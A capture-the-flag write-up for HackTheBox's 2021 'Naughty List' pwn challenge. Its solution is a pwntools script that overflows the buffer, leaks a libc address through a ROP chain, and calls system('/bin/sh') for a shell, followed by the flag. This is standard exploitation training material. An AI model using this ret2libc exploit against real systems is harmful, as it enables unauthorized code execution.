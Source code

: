 ```yaml
---
name: Naughty List (2021)
event: HackTheBox Cyber Apocalypse CTF 2021
category: Pwn
description: Writeup for Naughty List (Pwn) - HackTheBox Cyber Apocalypse CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Naughty List

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/3GGpyEkt8GE/0.jpg)](https://youtu.be/3GGpyEkt8GE?t=916s "HTB Cyber Apocalypse CTF 2021: Naughty List")

## Challenge Description

> The Elves have stolen Santa's 📜 and now he does not know who was good and who was bad. This form will help him recreate his list and send out gifts. Were you good enough or naughty?

## Solution

{% code overflow="wrap" %}
```py
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

def find_ip(payload):
    # Launch process and send payload
    p = process(exe)
    p.sendlineafter(b':', b'crypto')
    p.sendlineafter(b':', b'cat')
    p.sendlineafter(b':', b'18')
    p.sendlineafter(b':', payload)
    # Wait for the process to crash
    p.wait()
    # Print out the address of EIP/RIP at the time of crashing
    # ip_offset = cyclic_find(p.corefile.pc)  # x86
    ip_offset = cyclic_find(p.corefile.read(p.corefile.sp, 4))  # x64
    info('located EIP/RIP offset at {a}'.format(a=ip_offset))
    return ip_offset

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
break main
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './naughty_list'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'info'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Lib-C library
# libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')  # Local
libc = ELF('libc.so.6')  # Remote

# Pass in pattern_size, get back EIP/RIP offset
offset = find_ip(cyclic(1000))

ret = 0x400756

# Start program
io = start()

io.sendlineafter(b':', b'crypto')
io.sendlineafter(b':', b'cat')
io.sendlineafter(b':', b'18')

# Create a ROP object to handle complexities
rop = ROP(elf)

# Payload to leak libc function
rop.puts(elf.got.puts)
rop.get_descr()

# Send the payload
io.sendlineafter(':', flat({offset: rop.chain()}))

io.recvlines(6)  # Receive up to leaked address

# Retrieve got.puts address
got_puts = unpack(io.recvline()[:6].ljust(8, b"\x00"))
info("leaked got_puts: %#x", got_puts)

# Subtract puts offset to get libc base
libc.address = got_puts - libc.symbols.puts
info("libc_base: %#x", libc.address)

# Reset ROP object with libc binary
rop = ROP(libc)

# Call ROP system, passing location of "/bin/sh" string
rop.system(next(libc.search(b'/bin/sh\x00')))

# Send the payload
io.sendline(flat({offset: [ret, rop.chain()]}))

# Got Shell?
io.interactive()
```
{% endcode %}

Flag: `HTB{S4nt4_g0t_ninety9_pr0bl3ms_but_chr1stm4s_4in7_0n3}`
